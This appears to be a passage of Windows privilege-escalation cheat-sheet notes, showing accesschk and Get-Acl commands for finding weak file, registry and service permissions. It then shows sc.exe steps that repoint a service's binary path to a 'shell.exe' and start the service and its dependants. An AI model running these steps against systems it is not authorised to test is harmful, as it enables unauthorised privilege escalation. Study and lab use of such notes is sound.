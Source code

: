 ``` powershell
.\accesschk.exe /accepteula -uwdqs Users c:\
.\accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\
```
Files

``` powershell 
.\accesschk.exe /accepteula -uwqs Users c:\*.*
.\accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
```

Weak registry permissions
``` powershell
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\svc_name
```

### Getting ACLs
Can we do something about it?

> PowerShell

Getting ACLs of services
``` powershell
Get-Acl HKLM\System\CurrentControlSet\Services\svc_name | Format-List
```

Get ACLs of any file or folder
``` powershell
(get-acl C:\path\to\file).access | ft IdentityReference,FileSystemRights,AccessControlType
```

### Exploiting Services - sc.exe

Query service configuration

> Verify config after doing all the changes

``` powershell
sc qc svc
```

What is the current state of the service?
``` powershell
sc query svc
```

Modifying config
``` powershell
sc config svc binpath= "\"C:\Downloads\shell.exe\""
```

If dependencies exist, make it auto or NULL

> Check if you can restart the dependant svc 

``` powershell
sc config depend_svc start= auto
net start depend_svc
net start svc
```
